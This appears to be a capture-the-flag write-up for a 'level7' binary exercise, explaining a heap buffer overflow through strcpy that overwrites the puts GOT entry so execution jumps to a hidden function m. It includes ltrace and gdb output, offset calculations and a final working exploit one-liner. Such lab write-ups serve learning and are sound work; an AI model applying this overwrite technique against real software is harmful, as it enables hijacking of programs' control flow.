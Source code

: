 In the [code](./source.c), we can observe two `malloc` for defining two arrays in which there is another `malloc`'ed pointer.
The pointers are used as the target destination in `strcpy`. We will use a buffer overflow in the first argument to write over the destination of the second call.

## Investigation

1) We need to know the address returned by `malloc`.
    ```bash
    $ ltrace ./level7
    malloc(8)                                                                 = 0x0804a008
    malloc(8)                                                                 = 0x0804a018
    malloc(8)                                                                 = 0x0804a028
    malloc(8)                                                                 = 0x0804a038
    ```
    The addresses returned by malloc start at `0x0804a008`.
    We can observe the value stored there.
    ```
    (gdb) b *0x080485f7
    (gdb) r aaaa bbbb
    (gdb) x/20xw 0x0804a000
    0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018 <- address where the first argument is write
    0x804a010:      0x00000000      0x00000011      0x61616161      0x00000000
    0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038 <- address where the second argument is write
    0x804a030:      0x00000000      0x00000011      0x62626262      0x00000000
    0x804a040:      0x00000000      0x00020fc1      0xfbad240c      0x00000000
    ```
    So the first input is located at `0x804a018` and the second pointer at `0x804a02c` with an offset of `0x804a02c - 0x804a018 = 0x14 = 0d20`.

2) We need the address of `puts` to replace it with the address of `m`.
    ```bash
    (gdb) disas 'puts@plt'
    Dump of assembler code for function puts@plt:
       0x08048400 <+0>:     jmp    *0x8049928
       0x08048406 <+6>:     push   $0x28
       0x0804840b <+11>:    jmp    0x80483a0
    End of assembler dump.
    ```
    The address of `puts` is `0x8049928`.

3) Finally we will need the address of `m`
    ```bash
    (gdb) i fun m
    ...
    0x080484f4  m
    ...
    ```
    The function `m` is located at `0x080484f4`.

## Exploit

In the first input, we will need to write 20 chars then the address of `puts` to enable the second input to be written there with the address of `m`.

The exploit will look like this
```shell
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

